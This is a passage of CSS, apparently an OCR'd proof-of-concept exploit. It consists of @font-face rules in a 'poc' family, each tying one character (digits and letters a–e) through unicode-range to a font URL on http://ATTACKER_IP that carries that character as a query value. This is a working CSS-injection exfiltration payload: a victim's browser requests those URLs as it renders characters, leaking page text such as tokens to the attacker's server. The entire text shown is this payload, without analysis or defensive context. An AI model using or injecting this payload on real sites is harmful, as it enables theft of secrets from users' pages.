    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=2);
    unicode-range: U+0032;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=3);
    unicode-range: U+0033;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=4);
    unicode-range: U+0034;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=5);
    unicode-range: U+0035;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=6);
    unicode-range: U+0036;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=7);
    unicode-range: U+0037;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=8);
    unicode-range: U+0038;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=9);
    unicode-range: U+0039;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=a);
    unicode-range: U+0061;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=b);
    unicode-range: U+0062;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=c);
    unicode-range: U+0063;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=d);
    unicode-range: U+0064;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=e);
    unicode-range: U+0065;
}